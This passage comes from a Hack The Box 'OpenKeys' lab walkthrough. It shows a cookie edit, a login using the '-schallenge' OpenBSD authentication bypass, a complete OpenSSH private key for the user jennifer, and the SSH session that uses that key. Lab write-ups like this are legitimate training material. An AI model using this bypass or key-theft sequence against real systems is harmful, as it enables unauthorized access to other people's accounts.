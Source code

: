 ![]({{ "/images/htb/openkeys/cookie-editor.png" | relative_url }})

After saved it, I tried to login again with `-schallenge`, we found `jennifer's` private-key.

```terminal
root@lordrhovelionz:~/htb/openkeys# cat jennifer_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
root@lordrhovelionz:~/htb/openkeys# 
```
## **<span style='color:#E70B0B'>SSH as jennifer</span>**
***

```terminal
root@lordrhovelionz:~/htb/openkeys# chmod 600 jennifer_rsa 
root@lordrhovelionz:~/htb/openkeys# ssh -i jennifer_rsa jennifer@openkeys.htb
Last login: Sun Aug  9 14:13:58 2020 from 10.10.14.65
OpenBSD 6.6 (GENERIC) #353: Sat Oct 12 10:45:56 MDT 2019

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

openkeys$ ls -la
```